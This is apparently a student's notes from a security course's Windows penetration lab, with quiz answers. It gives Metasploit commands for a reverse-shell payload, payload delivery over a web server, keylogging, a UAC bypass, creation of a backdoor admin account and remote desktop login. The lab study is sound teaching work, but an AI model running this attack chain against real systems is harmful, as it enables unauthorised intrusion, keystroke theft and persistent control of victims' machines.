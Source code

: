 
# Windows Penetration Lab and Quiz Review 
#### 3/21/22
## Quiz
1. A reverse shell is a type of shell in which the target machine communicates back to the attacking machine
  * more practical and widely used
3. Posting on a website is _**not**_ the only way to deliver the payload/malicious code
4. Only the `sessions` command can view and interact with a background session
5. Penetrations testing can evelauate the security of the system or network

* False Statements: cannot be used to identify the vulnerabilities let undetected by automated vulnerability scanners; is an unauthroized attempt to exploit a computer system
7. `screenshot` is the command used to create a printscreen from the target machine in the Meterpreter shell
8. `use exploit` command is used to select an exploit
9. In the `Windows Shell` environment attacker can use “net user” to create an account
10. The `set` command is used to select a payload

## Lab
### Task A
#### Kali Terminal 1

`
msfconsole
`
// opens the shell


`use exploit/multi handler`

`show options`

`set payload windows/meterpreter/reverse_tcp`

`set lhost 192.169.10.13`

// ip address of the attacker

`
set lport 30122
show options`
// shows us that we have the correct information added

`
exploit
`

#### Kali Terminal 2

`
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.13 lport=30122 -f exe -o kboeh002.exe
`
// kboeh002.exe is the payload we just created

Next step is to deliver it to the fake website

`
service apache2 start
cp kboeh002.exe /var/www/html/
ls /var/www/html
`  
// lists content so we can double check it has been properly uploaded


### Windows 7

Access the ip address of the attacker machine and /filename

`192.168.10.13/kboeh002.exe` which will download the payload, then you must run it

### Task B

#### Kali Terminal 1

`screenshot'

* if you use the `screenshare` command it will stream the desktop, similar to sharing a screen in discord or zoom

`keyscan` command to pick up keystrokes from target

`keyscan_start`

#### Windows 7

Type "This is Kristiana Boehmer, happy spring break!"

#### Kali Terminal 1

`keyscan_dump` // returns keystrokes

`keyscan_stop` // ends the keystroke record

#### Kali Terminal 3

// Create document with date

`
echo -e "$(date)" > ~/IMadeIt-kboeh002.txt
`

### Kali Terminal 1

* must specify souce and destination paths

`
upload IMadeIt-kboeh002.txt
`

It will upload by default to the current location in the system, if you want it to go to a different location...

`upload IMadeIt-kboeh002.txt 'C:\Users\Windows 7\Desktop'` // this will upload it to the desktop of the target

### Task C
#### Kali Terminal 1

we need to background the current session

`
background
sessions
` 
// allows you to see your current sessions

`
search bypassuac
`

Use the `use` command to apply the first given location

`
use exploit/windows/local/bypassuac
set session 1
show options
exploit
`

Now with this session, we have admin privilages
* anything with admin privilages is able to save in a system protected folder ('System32')

`
net user
shell
`

Want to be in the System 32 folder because it means you are an admin

`
net user /add Kristiana passWoRd
net localgroup administrator Kristiana /add
`
// adds administrators privilages to the account created

#### Windows 7 Terminal
`
netstat
`

* the return is the current sessions running in the background. the one with the attacker's IP address and port number is the attacker (it is under foreign address that you see this information)

#### Kali Terminal 4
`
rdesktop -h
rdesktop 192.168.10.13 -u Kristiana -p passWoRd
`
// Note: if you didn't add the admin privilages it won't work

You should now see a popout with the remote desktop of the Windows 7 VM and have all the normal access you would have if you logged into it directly
